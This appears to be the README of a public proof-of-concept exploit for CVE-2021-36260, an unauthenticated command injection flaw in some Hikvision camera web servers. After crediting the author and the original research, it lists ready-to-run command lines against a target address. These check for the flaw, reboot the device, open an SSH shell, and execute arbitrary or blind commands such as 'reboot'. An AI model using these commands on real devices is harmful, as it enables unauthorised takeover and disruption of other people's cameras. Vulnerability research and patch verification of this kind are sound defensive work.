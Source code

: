 # CVE-2021-36260
CVE-2021-36260 POC command injection vulnerability in the web server of some Hikvision product. Due to the insufficient input validation, attacker can exploit the vulnerability to launch a command injection attack by sending some messages with malicious commands.

Exploit Title: Hikvision Web Server Build 210702 - Command Injection

Exploit Author: bashis

Vendor Homepage: https://www.hikvision.com/

Version: 1.0

CVE: CVE-2021-36260

Reference: https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

# All credit to Watchful_IP


Note:
1)  This code will _not_ verify if remote is Hikvision device or not.
2)  Most of my interest in this code has been concentrated on how to
    reliably detect vulnerable and/or exploitable devices.
    Some devices are easy to detect, verify and exploit the vulnerability,
    other devices may be vulnerable but not so easy to verify and exploit.
    I think the combined verification code should have very high accuracy.
3)  'safe check' (--check) will try write and read for verification
    'unsafe check' (--reboot) will try reboot the device for verification

[Examples]
Safe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check

Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot

Unsafe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot

Launch and connect to SSH shell:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell

Execute command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"

Execute blind command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"

